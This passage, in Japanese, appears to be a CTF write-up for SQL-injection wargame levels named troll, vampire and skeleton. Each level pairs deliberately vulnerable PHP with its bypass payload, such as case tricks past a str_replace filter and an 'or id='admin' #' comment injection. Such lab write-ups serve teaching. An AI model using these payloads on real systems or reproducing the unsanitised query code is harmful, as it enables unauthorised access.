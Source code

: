 ### 回答
``` sql
select id from prob_troll where id='ADMIN'
```

## vampire
### 問題
``` php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/\'/i', $_GET[id])) exit("No Hack ~_~"); 
  $_GET[id] = str_replace("admin","",$_GET[id]); 
  $query = "select id from prob_vampire where id='{$_GET[id]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id'] == 'admin') solve("vampire"); 
  highlight_file(__FILE__); 
?>
```
### 考察
"admin"をreplaceしている．

### 回答
``` sql
select id from prob_vampire where id='ADMIN'
```

## skeleton

### 問題
``` php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_skeleton where id='guest' and pw='{$_GET[pw]}' and 1=0"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id'] == 'admin') solve("skeleton"); 
  highlight_file(__FILE__); 
?>
```
### 考察
"and 1=0"という条件式があるのでコメントアウトしてあげる．
idはadminに．
### 回答
``` sql
select id from prob_skeleton where id='guest' and pw='' or id='admin' #' and 1=0
```
## golem
